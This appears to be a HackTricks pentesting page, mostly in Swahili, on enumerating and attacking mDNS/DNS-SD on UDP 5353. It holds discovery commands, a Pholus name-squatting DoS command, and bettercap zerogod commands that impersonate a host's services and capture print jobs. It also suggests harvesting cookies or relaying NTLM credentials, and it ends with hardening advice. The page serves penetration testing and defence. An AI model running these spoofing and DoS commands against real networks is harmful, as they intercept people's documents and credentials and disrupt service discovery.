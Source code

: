 # 5353/UDP Multicast DNS (mDNS) na DNS-SD

{{#include ../banners/hacktricks-training.md}}

## Taarifa za Msingi

Multicast DNS (mDNS) inaruhusu ufumbuzi wa majina kama DNS na ugunduzi wa huduma ndani ya kiungo cha ndani bila seva ya unicast DNS. Inatumia UDP/5353 na anwani za multicast 224.0.0.251 (IPv4) na FF02::FB (IPv6). Ugunduzi wa Huduma za DNS (DNS-SD, kwa kawaida hutumika na mDNS) unatoa njia iliyoandikwa ili kuorodhesha na kuelezea huduma kupitia rekodi za PTR, SRV na TXT.
```
PORT     STATE SERVICE
5353/udp open  zeroconf
```
Key protocol details you’ll often leverage during attacks:
- Majina katika eneo la .local yanatatuliwa kupitia mDNS.
- QU (Query Unicast) bit inaweza kuomba majibu ya unicast hata kwa maswali ya multicast.
- Utekelezaji unapaswa kupuuza pakiti zisizo na chanzo kutoka kwenye kiungo cha ndani; baadhi ya stacks bado zinakubali hizo.
- Kuchunguza/kutangaza kunalazimisha majina ya kipekee ya mwenyeji/huduma; kuingilia hapa kunaweza kuunda hali za DoS/“name squatting”.

## DNS-SD service model

Huduma zinatambulishwa kama _<service>._tcp au _<service>._udp chini ya .local, kwa mfano _ipp._tcp.local (printer), _airplay._tcp.local (AirPlay), _adb._tcp.local (Android Debug Bridge), n.k. Gundua aina kwa _services._dns-sd._udp.local, kisha tatua mifano iliyogunduliwa kwa SRV/TXT/A/AAAA.

## Network Exploration and Enumeration

- nmap target scan (direct mDNS on a host):
```bash
nmap -sU -p 5353 --script=dns-service-discovery <target>
```
- nmap broadcast discovery (listen to the segment and enumerate all DNS-SD types/instances):
```bash
sudo nmap --script=broadcast-dns-service-discovery
```
- avahi-browse (Linux):
```bash
# List service types
avahi-browse -bt _services._dns-sd._udp
# Browse all services and resolve to host/port
avahi-browse -art
```
- Apple dns-sd (macOS):
```bash
# Browse all HTTP services
dns-sd -B _http._tcp
# Enumerate service types
dns-sd -B _services._dns-sd._udp
# Resolve a specific instance to SRV/TXT
dns-sd -L "My Printer" _ipp._tcp local
```
- Packet capture with tshark:
```bash
# Live capture
sudo tshark -i <iface> -f "udp port 5353" -Y mdns
# Only DNS-SD service list queries
sudo tshark -i <iface> -f "udp port 5353" -Y "dns.qry.name == \"_services._dns-sd._udp.local\""
```

Tip: Baadhi ya vivinjari/WebRTC hutumia majina ya mDNS ya muda mfupi kuficha IP za ndani. Ikiwa unaona wagombea random-UUID.local kwenye waya, watatue kwa mDNS ili kuhamasisha IP za ndani.

## Attacks

### mDNS name probing interference (DoS / name squatting)

Wakati wa awamu ya kuchunguza, mwenyeji anachunguza upekee wa jina. Kujibu kwa migongano ya kudanganya kunalazimisha kuchagua majina mapya au kushindwa. Hii inaweza kuchelewesha au kuzuia usajili wa huduma na ugunduzi. 

Example with Pholus:
```bash
# Block new devices from taking names by auto-faking responses
sudo python3 pholus3.py <iface> -afre -stimeout 1000
```
### Huduma za kudanganya na kujifanya (MitM)

Jifanya kama huduma za DNS-SD zinazotangazwa (printa, AirPlay, HTTP, kushiriki faili) ili kuwashawishi wateja kuungana na wewe. Hii ni muhimu hasa kwa:
- Kukamata hati kwa kudanganya _ipp._tcp au _printer._tcp.
- Kuwavutia wateja kwenye huduma za HTTP/HTTPS ili kukusanya tokens/cookies au kupeleka payloads.
- Kuunganisha na mbinu za NTLM relay wakati wateja wa Windows wanaposhughulikia uthibitisho kwa huduma zilizodanganywa.

Kwa moduli ya zerogod ya bettercap (mDNS/DNS-SD spoofer/impersonator):
```bash
# Start mDNS/DNS-SD discovery
sudo bettercap -iface <iface> -eval "zerogod.discovery on"

# Show all services seen from a host
> zerogod.show 192.168.1.42

# Impersonate all services of a target host automatically
> zerogod.impersonate 192.168.1.42

# Save IPP print jobs to disk while impersonating a printer
> set zerogod.ipp.save_path ~/.bettercap/zerogod/documents/
> zerogod.impersonate 192.168.1.42

# Replay previously captured services
> zerogod.save 192.168.1.42 target.yml
> zerogod.advertise target.yml
```
Pia angalia LLMNR/NBNS/mDNS/WPAD spoofing na workflows za kukamata/kuhamasisha akidi:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

### Maelezo kuhusu masuala ya utekelezaji wa hivi karibuni (yenye manufaa kwa DoS/kuendelea wakati wa ushirikiano)

- Avahi reachable-assertion na D-Bus crash bugs (2023) zinaweza kumaliza avahi-daemon kwenye usambazaji wa Linux (mfano CVE-2023-38469..38473, CVE-2023-1981), kuharibu ugunduzi wa huduma kwenye mwenyeji wa lengo hadi upya.
- Cisco IOS XE Wireless LAN Controller mDNS gateway DoS (2024, CVE-2024-20303) inaruhusu washambuliaji wa karibu kuendesha CPU kubwa na kuondoa APs. Ikiwa unakutana na mDNS gateway kati ya VLANs, kuwa makini na utulivu wake chini ya mDNS isiyo sahihi au ya kiwango cha juu.

## Maoni ya kujihami na OPSEC

- Mipaka ya segmenti: Usiruhusu 224.0.0.251/FF02::FB kati ya maeneo ya usalama isipokuwa mDNS gateway inahitajika wazi. Ikiwa lazima uunganishe ugunduzi, pendelea orodha za ruhusa na mipaka ya kiwango.
- Windows endpoints/servers:
- Ili kuzima kabisa ufafanuzi wa majina kupitia mDNS weka thamani ya rejista na upya:
```
HKLM\SYSTEM\CurrentControlSet\Services\Dnscache\Parameters\EnableMDNS = 0 (DWORD)
```
- Katika mazingira yanayosimamiwa, zima sheria ya Windows Defender Firewall ya “mDNS (UDP-In)” (angalau kwenye profaili ya Domain) ili kuzuia usindikaji wa mDNS wa ndani huku ukihifadhi kazi za nyumbani/kuhamahama.
- Kwenye toleo jipya la Windows 11/GPO templates, tumia sera “Computer Configuration > Administrative Templates > Network > DNS Client > Configure multicast DNS (mDNS) protocol” na uweke kuwa Disabled.
- Linux (Avahi):
- Funga kuchapisha wakati sio muhimu: weka `disable-publishing=yes`, na punguza interfaces kwa `allow-interfaces=` / `deny-interfaces=` katika `/etc/avahi/avahi-daemon.conf`.
- Fikiria `check-response-ttl=yes` na epuka `enable-reflector=yes` isipokuwa inahitajika kwa dharura; pendelea `reflect-filters=` orodha za ruhusa unaporeflect.
- macOS: Punguza mDNS ya ndani kwenye moto wa mwenyeji/mtandao wakati ugunduzi wa Bonjour hauhitajiki kwa subnet maalum.
- Ufuatiliaji: Onya juu ya ongezeko la kawaida katika maswali ya `_services._dns-sd._udp.local` au mabadiliko ya ghafla katika SRV/TXT za huduma muhimu; hizi ni dalili za spoofing au uigaji wa huduma.

## Kumbukumbu ya haraka ya zana

- nmap NSE: `dns-service-discovery` na `broadcast-dns-service-discovery`.
- Pholus: skana hai, mzunguko wa nyuma wa mDNS, DoS na wasaidizi wa spoofing.
```bash
# Passive sniff (timeout seconds)
sudo python3 pholus3.py <iface> -stimeout 60
# Enumerate service types
sudo python3 pholus3.py <iface> -sscan
# Send generic mDNS requests
sudo python3 pholus3.py <iface> --request
# Reverse mDNS sweep of a subnet
sudo python3 pholus3.py <iface> -rdns_scanning 192.168.2.0/24
```
- bettercap zerogod: gundua, hifadhi, tangaza, na uigize huduma za mDNS/DNS-SD (angalia mifano hapo juu).

## Spoofing/MitM

Shambulio la kuvutia zaidi unaloweza kufanya juu ya huduma hii ni kufanya MitM katika mawasiliano kati ya mteja na seva halisi. Unaweza kuwa na uwezo wa kupata faili nyeti (MitM mawasiliano na printer) au hata akidi (uthibitisho wa Windows).\
Kwa maelezo zaidi angalia:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

## Marejeleo

- [Practical IoT Hacking: The Definitive Guide to Attacking the Internet of Things](https://books.google.co.uk/books/about/Practical_IoT_Hacking.html?id=GbYEEAAAQBAJ&redir_esc=y)
- [Nmap NSE: broadcast-dns-service-discovery](https://nmap.org/nsedoc/scripts/broadcast-dns-service-discovery.html)
- [bettercap zerogod (mDNS/DNS-SD discovery, spoofing, impersonation)](https://www.bettercap.org/modules/ethernet/zerogod/)

{{#include ../banners/hacktricks-training.md}}
